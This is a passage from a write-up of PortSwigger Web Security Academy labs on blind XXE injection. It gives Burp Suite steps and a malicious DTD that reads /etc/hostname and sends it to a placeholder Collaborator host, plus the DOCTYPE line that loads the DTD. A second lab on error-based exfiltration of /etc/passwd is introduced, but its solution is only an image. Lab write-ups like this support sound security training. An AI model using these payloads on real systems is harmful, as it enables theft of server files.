 ```
# Burpsuite solution
1. Using [Burp Suite Professional](https://portswigger.net/burp/pro), go to the [Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator) tab.
2. Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard.
3. Place the Burp Collaborator payload into a malicious DTD file:
    
    `<!ENTITY % file SYSTEM "file:///etc/hostname"> <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>"> %eval; %exfil;`
4. Click "Go to exploit server" and save the malicious DTD file on your server. Click "View exploit" and take a note of the URL.
5. You need to exploit the stock checker feature by adding a parameter entity referring to the malicious DTD. First, visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.
6. Insert the following external entity definition in between the XML declaration and the `stockCheck` element:
    
    `<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>`
7. Go back to the Collaborator tab, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again.
8. You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload. The HTTP interaction could contain the contents of the `/etc/hostname` file.

```


## Exploiting blind XXE to retrieve data via error messages

### Enunciation

This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, use an external DTD to trigger an error message that displays the contents of the `/etc/passwd` file.

The lab contains a link to an exploit server on a different domain where you can host your malicious DTD.

### Solution

![xxe](../img/xxe_15.png)
